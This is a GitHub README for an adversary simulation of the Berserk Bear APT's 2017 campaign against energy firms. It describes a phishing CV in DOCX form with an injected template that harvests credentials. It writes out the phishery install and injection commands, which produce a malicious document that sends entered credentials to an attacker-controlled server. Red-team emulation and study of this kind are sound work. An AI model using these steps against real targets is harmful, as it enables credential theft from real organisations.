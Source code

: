 # Berserk Bear APT Adversary Simulation
This is a simulation of attack by (Berserk Bear) APT group targeting critical infrastructure and energy companies around the world, primarily in Europe and the United States, The attack campaign was active from least May 2017. This attack target both the critical infrastructure providers and the vendors those providers use to deliver critical services, the attack chain starts with malicious (XML container) Injected into DOCX file connected to external server over (SMB) used to silently harvest users credentials and was used in spear-phishing attack. I relied on ‏Cisco Talos Intelligence Group‏ tofigure out the details to make this simulation: https://blog.talosintelligence.com/template-injection/

![imageedit_2_8052388982](https://github.com/S3N4T0R-0X0/Berserk-Bear-APT/assets/121706460/3d592743-ea32-4f8e-9739-1d0696c1bfd2)


If you need to know more about Berserk Bear APT group attacks: https://apt.etda.or.th/cgi-bin/showcard.cgi?g=Berserk%20Bear%2C%20Dragonfly%202%2E0&n=1

This attack included several stages including Injecting a DOCX file and using a malicious XML container that creates a specific alert to obtain credentials and is transferred to the attackers’ server, which in turn is used by them to obtain data for the organizations that were targeted by the spear-phishing attack. The DOCX file was a CV that was  Presented to a person with ten years of experience in software development and SCADA control systems.

1. Create CV DOCX file which will be injected and sent spear phishing.

2. Make injections into DOCX file to obtain credentials using the phishery tool.

3. Credential Phishing is when the target opens the target Word file and enters credentials into the notification that will be shown to them.



## The first stage (delivery technique)

Since the attackers here wanted to target institutions related to energy and energy management systems such as SCADA, the attackers created a DOCX file in the form of a CV to apply for a job. It seems that there was a hiring open to work for such a position, and the attackers sent the CV that contained the malicious XML container, here i created a CV identical to the one they used in the actual attack.

![Screenshot from 2024-05-18 19-21-05](https://github.com/S3N4T0R-0X0/Berserk-Bear-APT/assets/121706460/b0e13bdf-1816-41a9-99d8-4fc31d751aeb)




## The Second stage (implanting technique)

According to what Cisco Talos Intelligence Group said the attackers worked to inject the DOCX file via a phishery tool, this is because at the time of this attack it was a tool that had not been released for a long time and this is the point where the attackers took advantage of it the most and it is also possible that they made some modifications before using it in this attack.



![Screenshot from 2024-05-21 08-11-09](https://github.com/S3N4T0R-0X0/Berserk-Bear-APT/assets/121706460/b0bcf631-779b-44d4-899b-b37646a0427f)



Phishery is a Simple SSL Enabled HTTP server with the primary purpose of phishing credentials via Basic Authentication. Phishery also provides the ability easily to inject the URL into a .docx Word document.

Github repository: https://github.com/ryhanson/phishery.git


![photo_2024-05-28_08-22-20](https://github.com/S3N4T0R-0X0/Berserk-Bear-APT/assets/121706460/847f8fea-3076-49bb-9703-0375f24e085b)


`sudo apt-get install phishery`

`phishery -u https://192.168.138.138 -i CV.docx -o malicious.docx`

`phishery`

Now the malicious CV will be sent to the target and wait for the Credentials.

## The third stage (execution technique)






https://github.com/S3N4T0R-0X0/Berserk-Bear-APT/assets/121706460/ac654ad4-45d8-4bea-a0cb-a3a0fc7e567d





